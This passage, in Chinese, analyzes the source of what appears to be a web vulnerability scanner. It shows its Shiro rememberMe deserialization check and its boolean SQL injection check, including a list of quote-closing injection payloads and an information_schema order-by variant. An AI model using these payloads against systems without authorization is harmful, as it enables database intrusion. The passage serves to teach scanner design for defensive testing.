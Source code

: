 然后将payload写到Cookie的 rememberMe中 发起请求  
```python
_cookie = paramToDict(reqHeader["Cookie"], place=PLACE.COOKIE)
_cookie["rememberMe"] = payload
reqHeader["Cookie"] = url_dict2str(_cookie, PLACE.COOKIE)
```

最后判断 `"deleteMe" not in req.headers.get('Set-Cookie', '')`  
则存在反序列化漏洞  


#### sqli_bool 布尔注入检测


先直接请求一次 然后去除多余数据后匹配相似度  
```python
if self.requests.method == HTTPMETHOD.POST:
    r = requests.post(self.requests.url, data=self.requests.data, headers=self.requests.headers)
else:
    r = requests.get(self.requests.url, headers=self.requests.headers)
html = self.removeDynamicContent(r.text)
self.resp_str = self.removeDynamicContent(self.resp_str)
try:
    self.seqMatcher.set_seq1(self.resp_str)
    self.seqMatcher.set_seq2(html)
    ratio = round(self.seqMatcher.quick_ratio(), 3)
```
并且查找动态内容  
计数+1  
```python
self.findDynamicContent(self.resp_str, html)
count += 1
```

开始准备插入payload测试  

payload  
```python
sql_payload = [
    "<--isdigit-->",
    "'and'{0}'='{1}",
    '"and"{0}"="{1}',
    " and '{0}'='{1}-- ",
    "' and '{0}'='{1}-- ",
    '''" and '{0}'='{1}-- ''',
    ") and '{0}'='{1}-- ",
    "') and '{0}'='{1}-- ",
    '''") and '{0}'='{1}-- '''
]
```
闭合单双引号加括号 然后 用and等于随机数 最后注释  

如果有参数中有 `desc`或者`asc` 可能可以使用order by   
payload增加一条 `,if('{0}'='{1}',1,(select 1 from information_schema.tables))`   

默认是不是数字的 判断一下value值是否是数字 是的话 is_num设置为True  
